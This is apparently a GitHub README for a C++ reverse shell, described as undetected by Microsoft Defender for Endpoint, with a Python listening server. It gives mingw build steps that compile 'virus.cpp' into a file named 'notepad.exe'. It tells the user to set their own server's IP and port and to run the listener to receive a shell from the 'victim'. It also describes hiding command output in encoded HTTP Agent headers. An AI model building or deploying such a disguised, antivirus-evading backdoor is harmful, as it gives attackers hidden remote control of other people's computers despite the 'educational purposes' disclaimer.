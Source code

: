 # Interative ReverseShell bypass Microsoft Window Defender

A simple ReverseShell written in C++, and listening server written in Python. It is not detected by MDE (tested on 8/20/2024 : Windows 10 22H2 latest)

## I. Installation

- ***Mingw***:
    *note that I try to use Microsoft Visual Studio to build exe but I got a lot of errors with lib and header file, you can use MVS if you want, or install Mingw like me*

```bash
sudo apt-get update
sudo apt-get install mingw-w64 -y
```
## II. Usage
### 1. Build virus
***Note:*** *Inspect source in virus.cpp and change sourceip and port to your remote server that hosts server.py (receive shell from victim) then build it using mingw*
```bash
x86_64-w64-mingw32-g++ -o notepad.exe virus.cpp  -static-libgcc -static-libstdc++ -lwininet
```

### 2. Run listening server
***Note:*** *This server.py will listen incomming GET request, extract Agent header and decode to human readable data (result returns from command)*
```python
python3 server.py
```

Run notepad.exe connection will be established to remote server, run any command.

**Server**:

![plot](./images/serverpy.png)

**Client**

![plot](./images/viruscpp.png)

> [!CAUTION]
> There is no clean code, no penetration test provided, this repo is for educational purposes only. Do not use for illegal purposes. I'm never responsible for illegal use. Educational purpose only!
## Support me (optional)
If you find it useful, you can support me with a cup of coffee.
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2123O0D)
